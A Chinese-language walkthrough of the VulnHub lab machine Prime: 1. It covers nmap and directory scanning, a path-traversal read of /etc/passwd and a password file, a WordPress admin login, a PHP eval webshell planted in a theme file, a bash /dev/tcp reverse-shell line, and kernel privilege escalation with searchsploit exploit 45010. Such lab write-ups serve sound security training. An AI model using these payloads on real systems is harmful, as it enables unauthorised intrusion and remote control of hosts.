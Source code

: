 > 靶机文档：[PRIME: 1](https://www.vulnhub.com/entry/prime-1,358/)
>
> 下载地址：[**Download (Mirror)**]( https://download.vulnhub.com/prime/Prime_Series_Level-1.rar)

## 前期nmap扫描

### 主机发现

```bash
nmap -sn 10.9.75.0/24
```



![image-20240116145204645](imgs/image-20240116145204645.png)

发现开放了`22`和`80`端口

再扫一下服务端版本等详细信息

```bash
sudo nmap -sT -sV -O -p22,80 10.9.75.10
```

![image-20240116145955611](imgs/image-20240116145955611.png)

再进行一个UDP的扫描

```bash
sudo nmap -sU -p22,80 10.9.75.10
```

![image-20240116150055560](imgs/image-20240116150055560.png)

发现扫描结果都是一样的，并没有多余的端口开放

最后再使用nmap进行漏洞脚本扫描

```bash
└─$ sudo nmap --script=vuln  -p22,80 10.9.75.10
```

![image-20240116150735605](imgs/image-20240116150735605.png)

访问80端口，只有一张图片

![image-20240116145306976](imgs/image-20240116145306976.png)

## Web渗透

查看一个网页的源码，源码也很简单，没什么东西

![image-20240116150509838](imgs/image-20240116150509838.png)

### 目录爆破和模糊测试

```bash
dirb http://10.9.75.10  -o report/dirb
```

![image-20240116150931363](imgs/image-20240116150931363.png)

发现一个很明显的`wordpress`，

dirb也对二级或者三级目录进行了一个扫描

先访问一下`dev`目录

![image-20240116151359443](imgs/image-20240116151359443.png)

提示我们需要做一个深度挖掘

使用`dirb`指定后缀名进行扫描，发现一个`secret.txt`文件

```bash
 dirb http://10.9.75.10  -X .zip,.txt -o report/dirbveryhard.txt
```

![image-20240116151646184](imgs/image-20240116151646184.png)

使用 `curl`命令访问这个文件

```bash
curl http://10.9.75.10/secret.txt
```

![image-20240116152012757](imgs/image-20240116152012757.png)

提示说对找到的`php`页面做模糊测试

给到一个链接`https://github.com/hacknpentest/Fuzzing/blob/master/Fuzz_For_Web`是做基于Web的模糊测试。

指定`php`后缀扫描，只发现两个 `index.php`是访问`80`端口出现的那个图片界面

![image-20240116153122534](imgs/image-20240116153122534.png)

然后使用`wfuzz`进行模糊测试

> [WFUZZ教程](https://blog.csdn.net/JBlock/article/details/88619117)
>
> https://wfuzz.readthedocs.io/en/latest/

![image-20240116153502775](imgs/image-20240116153502775.png)

对`image.php`做模糊测试找不到，后来对`index.php`做模糊测试，成功找到。

```bash
└─$ wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt  --hw 12 http://10.9.75.10/index.php?FUZZ=something


--hw 12  是过滤器的用法
```

![image-20240116154145770](imgs/image-20240116154145770.png)

`?file`

查看`location.txt`

```bash
curl http://10.9.75.10/index.php?file=location.txt
```



![image-20240116155634188](imgs/image-20240116155634188.png)

提示说使用`secrettier360`参数在其他`php`页面

前面总共就扫出来两个`php`页面

```bash
 curl http://10.9.75.10/image.php?secrettier360
```



![image-20240116155952915](imgs/image-20240116155952915.png)

### 文件包含利用

提示说最终得到了正确的参数，可以尝试一下能不能文件包含

```bash
curl http://10.9.75.10/image.php?secrettier360=../../../../../etc/passwd
```



![image-20240116160758766](imgs/image-20240116160758766.png)

有`bash`环境的就只有两个，后期可以考虑看能否利用

![image-20240116161323441](imgs/image-20240116161323441.png)

然后在`saket`用户的家目录里面有一个`password.txt`文件

![image-20240116161604643](imgs/image-20240116161604643.png)

访问一下，看看

![image-20240116161804065](imgs/image-20240116161804065.png)

得到的密码：`follow_the_ippsec`

现在这条路已经走不通了，回过头去，找其他线索

这里得到的密码也可以去试试ssh能不能能成功，事实上这里是不通的，主要是得有这个想法，得能想到这一点，这个是关键所在

### wordpress后台利用

用户枚举

```bash
sudo wpscan --url http://10.9.75.10/wordpress/ -e u
```

![image-20240116164109692](imgs/image-20240116164109692.png)

`http://10.9.75.10/wordpress/wp-admin/`

账密：`victor:follow_the_ippsec`

成功登录后台

![image-20240116163348432](imgs/image-20240116163348432.png)



寻找能够上传的地方

写入一句话`<?php @eval($_REQUEST['saury']) ?>`

![image-20240116174329215](imgs/image-20240116174329215.png)

触发地址：`wordpress/wp-content/themes/twentynineteen/secret.php`

![image-20240116174307653](imgs/image-20240116174307653.png)



成功GetShell，但是不稳定 不持久（网络环境变化 杀毒软件等等）

使用反弹



```bash
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.75.6/1234 0>&1'"); ?>
```

![image-20240116203104379](imgs/image-20240116203104379.png)



访问`http://10.9.75.10/wordpress/wp-content/themes/twentynineteen/secret.php`触发反弹Shell

![image-20240116203055769](imgs/image-20240116203055769.png)

### 权限提升

```bash
sudo -l
```



![image-20240116203143114](imgs/image-20240116203143114.png)

需要密码，使用上面得到的密码并不能成功

![image-20240116203359540](imgs/image-20240116203359540.png)

查看内核版本

```bash
uname -a
```

![image-20240116203444884](imgs/image-20240116203444884.png)

搜索EXP

```bash
searchsploit Linux ubuntu 4.10.0-28
```



![image-20240116203529627](imgs/image-20240116203529627.png)

```bash
searchsploit Linux ubuntu 4.10.0-28 -m 45010


-m 将文件下载下来
```

查看该EXP

![image-20240116203720312](imgs/image-20240116203720312.png)

编译

```bash
 gcc 45010.c -o 45010
```

![image-20240116204243828](imgs/image-20240116204243828.png)

获取flag

```bash
cd  /root
```



![image-20240116204323709](imgs/image-20240116204323709.png)
